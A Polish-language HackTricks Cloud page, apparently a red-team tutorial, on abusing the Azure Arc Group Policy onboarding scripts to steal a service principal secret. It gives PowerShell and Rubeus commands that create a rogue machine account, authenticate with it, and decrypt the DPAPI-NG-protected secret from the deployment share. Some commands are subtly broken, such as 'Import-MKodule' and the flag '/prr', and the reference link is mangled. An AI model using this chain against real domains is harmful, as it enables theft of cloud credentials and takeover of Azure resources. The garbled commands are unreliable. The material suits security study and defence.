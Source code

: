 # Az - Wrażliwy skrypt wdrażania GPO Azure Arc

{% hint style="success" %}
Dowiedz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Dowiedz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na githubie.

</details>
{% endhint %}

### Identyfikacja problemów

Azure Arc umożliwia integrację nowych serwerów wewnętrznych (serwery dołączone do domeny) do Azure Arc za pomocą metody Group Policy Object. W tym celu Microsoft udostępnia zestaw narzędzi do wdrażania niezbędny do rozpoczęcia procedury dołączania. Wewnątrz pliku ArcEnableServerGroupPolicy.zip znajdują się następujące skrypty: DeployGPO.ps1, EnableAzureArc.ps1 i AzureArcDeployment.psm1.

Podczas wykonywania skryptu DeployGPO.ps1 następujące czynności są wykonywane:

1. Tworzy GPO do dołączania serwerów Azure Arc w lokalnej domenie.
2. Kopiuje skrypt dołączania EnableAzureArc.ps1 na określoną udostępnioną sieć stworzoną dla procesu dołączania, która zawiera również pakiet instalacyjny systemu Windows.

Podczas uruchamiania tego skryptu administratorzy systemu muszą podać dwie główne parametry: **ServicePrincipalId** i **ServicePrincipalClientSecret**. Dodatkowo wymagane są inne parametry, takie jak domena, FQDN serwera hostującego udział, nazwa udziału. Dodatkowe szczegóły, takie jak identyfikator najemcy, grupa zasobów i inne niezbędne informacje, muszą również zostać podane skryptowi.

Za pomocą szyfrowania DPAPI-NG w katalogu AzureArcDeploy na określonym udziale generowany jest zaszyfrowany sekret. Zaszyfrowany sekret jest przechowywany w pliku o nazwie encryptedServicePrincipalSecret. Dowody na to można znaleźć w skrypcie DeployGPO.ps1, gdzie szyfrowanie jest wykonywane poprzez wywołanie ProtectBase64 z $descriptor i $ServicePrincipalSecret jako dane wejściowe. Deskryptor składa się z SID grup Domain Computer i Domain Controller, zapewniając, że ServicePrincipalSecret może być odszyfrowany tylko przez grupy zabezpieczeń Domain Controllers i Domain Computers, jak zaznaczono w komentarzach skryptu.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Wykorzystanie

Mamy następujące warunki:

1. Udało nam się przebić do wewnętrznej sieci.
2. Mamy możliwość utworzenia lub przejęcia konta komputera w ramach Active Directory.
3. Odkryliśmy udział sieciowy zawierający katalog AzureArcDeploy.

Istnieje kilka metod pozyskania konta komputera w środowisku AD. Jedną z najczęstszych jest wykorzystanie limitu konta komputerowego. Inną metodą jest skompromitowanie konta komputerowego poprzez podatne ACL lub różne inne błędy konfiguracyjne.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Po uzyskaniu konta maszyny możliwe jest uwierzytelnienie przy użyciu tego konta. Możemy użyć polecenia runas.exe z flagą netonly lub skorzystać z opcji pass-the-ticket za pomocą Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Poprzez przechowywanie TGT dla naszego konta komputerowego w pamięci, możemy użyć poniższego skryptu do odszyfrowania tajnego klucza głównego usługi.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternatywnie, możemy użyć [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

W tym momencie możemy zebrać pozostałe informacje potrzebne do połączenia z Azure z pliku ArcInfo.json, który jest przechowywany na tym samym udostępnionym zasobie sieciowym co plik encryptedServicePrincipalSecret. Ten plik zawiera szczegóły takie jak: TenantId, servicePrincipalClientId, ResourceGroup i inne. Z tymi informacjami możemy użyć Azure CLI do uwierzytelnienia jako skompromitowany podmiot usługi.

## Referencje

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Azure-Arc/)

